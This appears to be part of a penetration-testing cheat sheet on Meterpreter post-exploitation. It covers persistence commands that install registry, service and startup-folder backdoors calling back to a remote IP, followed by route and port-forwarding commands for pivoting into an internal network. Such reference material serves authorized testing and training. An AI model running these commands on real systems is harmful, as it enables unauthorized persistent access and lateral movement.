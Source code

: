 ## Persistence

### Persistence Methods
```bash
# Registry persistence
meterpreter > run persistence -X -i 10 -p 443 -r 10.10.14.113

# Service persistence
meterpreter > run persistence -S -i 10 -p 443 -r 10.10.14.113

# Startup folder persistence
meterpreter > run persistence -U -i 10 -p 443 -r 10.10.14.113
```

### Persistence Options
| Option | Description |
|--------|-------------|
| `-X` | Boot persistent (registry) |
| `-U` | User persistent (startup folder) |
| `-S` | System persistent (service) |
| `-i` | Interval between connections |
| `-p` | Port to connect back to |
| `-r` | IP to connect back to |

## Pivoting and Lateral Movement

### Route Management
```bash
# Add route to internal network
meterpreter > route add 192.168.1.0 255.255.255.0 1

# List current routes
meterpreter > route print

# Delete route
meterpreter > route delete 192.168.1.0 255.255.255.0 1
```

### Port Forwarding
```bash
# Forward local port to remote service
meterpreter > portfwd add -l 8080 -p 80 -r 192.168.1.100

# List active port forwards
meterpreter > portfwd list

# Delete port forward
meterpreter > portfwd delete -l 8080
```
